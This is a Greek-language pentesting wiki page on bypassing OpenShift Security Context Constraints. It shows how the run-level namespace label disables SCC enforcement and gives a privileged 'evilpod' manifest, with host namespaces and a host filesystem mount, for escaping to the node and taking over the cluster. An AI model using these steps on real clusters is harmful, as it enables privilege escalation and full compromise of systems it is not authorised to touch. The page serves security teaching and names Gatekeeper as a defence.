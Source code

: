 # Openshift - Διασπορά SCC

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Προνομιούχοι Χώροι Ονομάτων

Από προεπιλογή, το SCC δεν ισχύει στα ακόλουθα έργα:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Εάν αναπτύξετε pods μέσα σε έναν από αυτούς τους χώρους ονομάτων, δεν θα επιβληθεί κανένα SCC, επιτρέποντας την ανάπτυξη προνομιούχων pods ή την προσάρτηση του συστήματος αρχείων του κεντρικού υπολογιστή.

## Ετικέτα Χώρου Ονομάτων

Υπάρχει ένας τρόπος για να απενεργοποιήσετε την εφαρμογή του SCC στο pod σας σύμφωνα με την τεκμηρίωση της RedHat. Θα πρέπει να έχετε τουλάχιστον μία από τις ακόλουθες άδειες:

* Δημιουργήστε έναν Χώρο Ονομάτων και Δημιουργήστε ένα Pod σε αυτόν τον Χώρο Ονομάτων
* Επεξεργαστείτε έναν Χώρο Ονομάτων και Δημιουργήστε ένα Pod σε αυτόν τον Χώρο Ονομάτων
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Η συγκεκριμένη ετικέτα `openshift.io/run-level` επιτρέπει στους χρήστες να παρακάμψουν τα SCCs για τις εφαρμογές. Σύμφωνα με την τεκμηρίωση της RedHat, όταν χρησιμοποιείται αυτή η ετικέτα, δεν επιβάλλονται SCCs σε όλα τα pods μέσα σε αυτό το namespace, καταργώντας αποτελεσματικά οποιοδήποτε περιορισμό.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Προσθήκη Ετικέτας

Για να προσθέσετε την ετικέτα στο namespace σας:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Για να δημιουργήσετε ένα namespace με την ετικέτα μέσω ενός αρχείου YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Τώρα, όλα τα νέα pods που δημιουργούνται στο namespace δεν πρέπει να έχουν κανένα SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Στην απουσία του SCC, δεν υπάρχουν περιορισμοί στον ορισμό του pod σας. Αυτό σημαίνει ότι ένα κακόβουλο pod μπορεί να δημιουργηθεί εύκολα για να δραπετεύσει στο σύστημα του host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Τώρα, έγινε πιο εύκολος ο εξορθολογισμός προνομίων για πρόσβαση στο σύστημα φιλοξενίας και στη συνέχεια να αναλάβετε τον ολόκληρο συστηματικό συστάδα, αποκτώντας προνόμια 'cluster-admin'. Αναζητήστε το μέρος **Node-Post Exploitation** στην ακόλουθη σελίδα:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Προσαρμοσμένες ετικέτες

Επιπλέον, με βάση τη ρύθμιση του στόχου, μπορεί να χρησιμοποιηθούν ορισμένες προσαρμοσμένες ετικέτες / αναφορές με τον ίδιο τρόπο όπως και στο προηγούμενο σενάριο επίθεσης. Ακόμα κι αν δεν είναι προορισμένες γι' αυτό, οι ετικέτες μπορεί να χρησιμοποιηθούν για να δώσουν δικαιώματα, να περιορίσουν ή όχι ένα συγκεκριμένο πόρο.

Προσπαθήστε να αναζητήσετε προσαρμοσμένες ετικέτες αν μπορείτε να διαβάσετε κάποιους πόρους. Εδώ μια λίστα με ενδιαφέροντες πόρους:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Λίστα όλων των προνομιούχων namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Προηγμένη εκμετάλλευση

Στο OpenShift, όπως επιδείχθηκε νωρίτερα, η άδεια να αναπτύξετε ένα pod σε ένα namespace με το ετικέτα `openshift.io/run-level` μπορεί να οδηγήσει σε μια απευθείας επίθεση στο cluster. Από την άποψη των ρυθμίσεων του cluster, αυτή η λειτουργικότητα **δεν μπορεί να απενεργοποιηθεί**, καθώς είναι ενσωματωμένη στον σχεδιασμό του OpenShift.

Ωστόσο, μέτρα αντιμετώπισης όπως το **Open Policy Agent GateKeeper** μπορούν να αποτρέψουν τους χρήστες από το να ορίσουν αυτήν την ετικέτα.

Για να παρακάμψουν τους κανόνες του GateKeeper και να ορίσουν αυτήν την ετικέτα για να εκτελέσουν μια επίθεση στο cluster, **οι επιτιθέμενοι θα χρειαζόταν να εντοπίσουν εναλλακτικές μεθόδους.**

## Αναφορές

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
